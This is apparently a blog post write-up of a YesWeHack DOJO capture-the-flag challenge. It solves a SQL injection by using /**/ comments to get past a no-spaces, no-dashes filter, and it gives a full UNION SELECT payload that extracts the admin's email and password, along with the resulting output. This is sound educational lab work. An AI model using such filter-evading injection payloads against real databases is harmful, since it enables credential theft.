 ```yaml
---
layout: post
title:  "Yes we hack DOJO #19"
date:   2022-12-07 10:02:59 +0100
categories: jekyll update
---
```


![](/assets/storytime.png)
So we can't do -- comments and no spaces.
Hm.

How about comments?

We have a comment below which is a hint? It also has a \*/ for us

```sql
SELECT username FROM users WHERE ( role = 'USER' AND email LIKE '%@yahoo.com' ) AND ( id > 13.37 AND id <= 3)/* ) LIMIT 0 -- 10
/**
* Set "LIMIT" to 10 when in production
*/
```

Are comments valid token delimiters? Yes they are!

So something like 
```sql
3)/**/UNION/**/SELECT/**/email/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin';/*
```
should work and indeed it does.
Complete payload is:

```sql
3)/**/UNION/**/SELECT/**/email/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin'/**/UNION/**/SELECT/**/password/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin';/*
```

Giving us:
```sql
SELECT username FROM users WHERE ( role = 'USER' AND email LIKE '%@yahoo.com' ) AND ( id > 13.37 AND id <= 3)/**/UNION/**/SELECT/**/email/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin'/**/UNION/**/SELECT/**/password/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin';/* ) LIMIT 0 -- 10
/**
* Set "LIMIT" to 10 when in production
*/
```

```json
[
  {
    "username": "FLAG{Th1s_is_th3_4dm1n_p4ssw0rd}"
  },
  {
    "username": "murphygary@gmail.com"
  }
]
```

Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
